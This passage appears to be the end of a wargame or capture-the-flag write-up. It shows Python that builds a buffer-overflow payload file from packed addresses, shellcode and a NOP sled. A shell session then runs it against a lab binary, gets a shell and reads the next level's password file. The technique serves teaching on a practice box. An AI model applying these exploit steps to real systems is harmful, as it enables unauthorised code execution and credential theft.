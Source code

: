 ```python
FILE += struct.pack("<L", PTR2)
FILE += SHELLCODE
FILE += '\x90' * (10340 - len(FILE))
FILE += struct.pack("<L", 0x02020270)
FILE += struct.pack("<L", FIXEDBUF)
FILE += struct.pack("<L", I + 2)[0]
FILE += '\x03'

f = open('somefile', 'wb')
f.write(FILE)
f.close()
```

Let's give it a shot:

```
level5@blackbox:/tmp$ python genfile.py
level5@blackbox:/tmp$ ~/list `python -c "print 'a'*0x10000"`
sh-3.1$ cat /home/level6/password
???????????????
```

And we're done!

